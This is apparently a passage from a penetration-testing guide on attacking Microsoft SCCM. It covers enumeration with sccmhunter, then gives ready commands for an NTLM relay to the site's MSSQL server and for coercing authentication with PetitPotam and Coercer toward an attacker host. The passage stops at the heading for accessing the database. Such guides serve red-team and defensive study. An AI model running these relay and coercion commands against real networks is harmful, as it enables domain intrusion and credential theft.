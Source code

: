 Additionally, we can utilize the `smb` module to profile and list SMB shares of identified SCCM servers.

1. Profiling the site server:

	- Validates connectivity.
	- Verifies if the site server hosts the MSSQL service.
	- Determines if the site server is active or passive.
	- Identify whether the site server is a central administration site.

2. Management point verifications.

	- Validates connectivity to the HTTP endpoints.

3. Checks for roles and configurations.

	- Searches for associated site codes from default file shares.
	- Verify whether the SMB signing is turned off.
	- Identifies the site system roles such as Site Server, Management Point, Distribution Point, SMS Provider, MSSQL, and WSUS.


**Search for PXEBoot variables and save them:**

```bash
python3 sccmhunter.py smb -u <user> -p <pass> -d domain.local -dc-ip <dc-ip> -save
```


Additionally, the [SharpSCCM](https://github.com/Mayyhem/SharpSCCM) (C#) tool can also be utilized on Windows systems and it provides features for enumeration, credential gathering and lateral movement without requring access to the SCCM administration console.


## Execution
___
**Step 1: Set up NTLM Relay**

Use `ntlmrelayx.py` to listen for incoming connections and relay them to the target MSSQL server. The `-socks` flag creates a proxy session upon successful relay.

```bash
impacket-ntlmrelayx -t "mssql://<MSSQL_SERVER_IP>" -smb2support -socks
```

**Step 2: Coerce Authentication**

**PetitPotam:**
```bash
python3 PetitPotam.py -u <user> -p '<password>' -d <domain> <ATTACKER_IP> <PRIMARY_SITE_SERVER_IP>
```

**Attempt various methods: ([coercer](https://github.com/p0dalirius/Coercer))**

```bash
python3 coercer.py coerce -l <attackerIP> -t <targetIP> -u 'user' -p 'pass' -d <domain.local> -v
```


**Step 3: Access the Database via Relayed Session**
